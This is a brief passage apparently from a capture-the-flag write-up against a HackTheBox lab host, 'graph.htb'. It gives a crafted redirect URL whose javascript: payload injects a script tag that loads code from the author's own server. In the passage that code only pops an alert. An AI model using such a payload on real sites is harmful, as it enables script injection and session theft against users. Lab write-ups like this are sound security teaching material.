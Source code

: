 ![](/img/image-20220727170135294.png)

#### Load Arbitrary JavaScript

I'll play around with a URL in Firefox to get something that will load
and execute arbitrary JavaScript from my server. With `alert.js` being a
simple `alert(1)`, this URL works to pop an alert:



    http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D%27%3Cscript%20src%3d%22http://10.10.14.6/alert.js%22%3E%3C/script%3E%27



![](/img/image-20220727171640868.png)